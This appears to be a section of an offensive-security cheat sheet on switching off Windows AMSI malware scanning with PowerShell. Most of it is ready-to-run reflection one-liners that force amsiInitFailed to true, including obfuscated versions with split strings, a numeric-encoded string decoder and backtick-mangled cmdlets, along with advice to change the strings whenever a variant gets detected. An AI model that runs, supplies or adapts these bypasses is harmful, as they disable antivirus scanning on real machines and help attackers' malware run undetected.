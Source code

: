 #### Graeber Reflection
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) utilizes Powershell to set the response value of ASMI to  `$null`

Matt Graebers Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Matt Graebers Reflection method with WMF5 autologging bypass
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

Matt Graebers second Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

If patched, just change up the strings/variables. 
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
Requires Credit!

If patched, just change up the strings/variables. 
```powershell
$A="5492868772801748688168747280728187173688878280688776"
$B="8281173680867656877679866880867644817687416876797271"
function C($n, $m){
[string]($n..$m|%{[char][int](29+($A+$B).
    substring(($_*2),2))})-replace " "}
$k=C 0 37; $r=C 38 51
$a=[Ref].Assembly.GetType($k)
$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
```
@TihanyiNorbert (Based on the original work of Matt Graeber @mattifestation script)

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
[Buaq.net](https://buaq.net/go-98295.html)
